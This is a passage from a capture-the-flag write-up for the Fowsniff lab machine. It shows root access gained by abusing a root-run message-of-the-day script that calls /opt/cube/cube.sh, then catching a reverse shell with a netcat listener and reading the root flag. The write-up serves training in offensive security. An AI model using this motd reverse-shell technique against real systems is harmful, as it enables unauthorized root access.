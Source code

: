 *Hint: Run the cube file to the motd.d file.*

We can confirm that the `/opt/cube/cube.sh` script is present in `/etc/update-motd.d/00-header`. The `motd` (Message of the Day) daemon is responsible for displaying a message on an SSH connection and it is executed by `root`.

~~~
baksteen@fowsniff:/etc/update-motd.d$ grep cube *
00-header:sh /opt/cube/cube.sh
~~~

# #14 - Start a netcat listener (nc -lvp 1234) and then re-login to the SSH service. You will then receive a reverse shell on your netcat session as root!

Let's disconnect from our SSH session, and open a listener (adapt the port to fit with the one mentioned in the reverse shell):

~~~
$ rlwrap nc -nlvp 4444
~~~

Now, when we reconnect with SSH, we have a root shell in listener window:

~~~
kali@kali:/data/Fowsniff_CTF/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.137.20] 38714
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls -la
total 28
drwx------  4 root root 4096 Mar  9  2018 .
drwxr-xr-x 22 root root 4096 Mar  9  2018 ..
-rw-r--r--  1 root root 3117 Mar  9  2018 .bashrc
drwxr-xr-x  2 root root 4096 Mar  9  2018 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  5 root root 4096 Mar  9  2018 Maildir
-rw-r--r--  1 root root  582 Mar  9  2018 flag.txt
# cat flag.txt
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by @berzerk0 on Twitter.
~~~